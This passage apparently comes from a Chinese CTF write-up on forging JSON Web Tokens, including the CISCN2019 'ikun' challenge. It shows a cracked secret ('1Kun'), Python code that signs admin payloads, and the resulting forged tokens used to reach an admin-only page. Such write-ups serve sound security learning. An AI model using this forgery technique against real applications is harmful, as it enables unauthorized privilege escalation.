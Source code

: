 ```python
sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "utf-8"), token.encode("utf-8"), hashlib.sha256).digest()).decode("utf-8").rstrip("=")

# 输出最终的 JWT
print(token + "." + sig)
```

---->

```python
eyJ0eXAiOiAiSldUIiwgImFsZyI6ICJIUzI1NiJ9.eyJ1c2VybmFtZSI6ICJhZG1pbiIsICJyb2xlIjogImFkbWluIn0.TKLWmpJhNpSKqkztiZY4QQC0nYnICLjAe5UMyAE9a24
```



### [CISCN2019 华北赛区 Day1 Web2]ikun

> 其中一步

访问`/b1g_m4mber`

提示需要admin才能访问，我们之前观察到的cookie里面的jwt，我们现在使用`c-jwtcrack`爆破这个密钥---------------> ·1Kun·

![image-20241026144241906](https://gitee.com/bx33661/image/raw/master/path/image-20241026144241906.png)

```python
import jwt

# 泄露的密钥
secret_key = "1Kun"

# 载荷数据
payload = {
    "username": "admin"
}

# 生成JWT
new_token = jwt.encode(payload, secret_key, algorithm="HS256")
print("新生成的JWT:", new_token)
```

加密:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

进入页面寻找线索：



## 脚本工具

JWT在线网站：**https://jwt.io/#encoded-jwt**
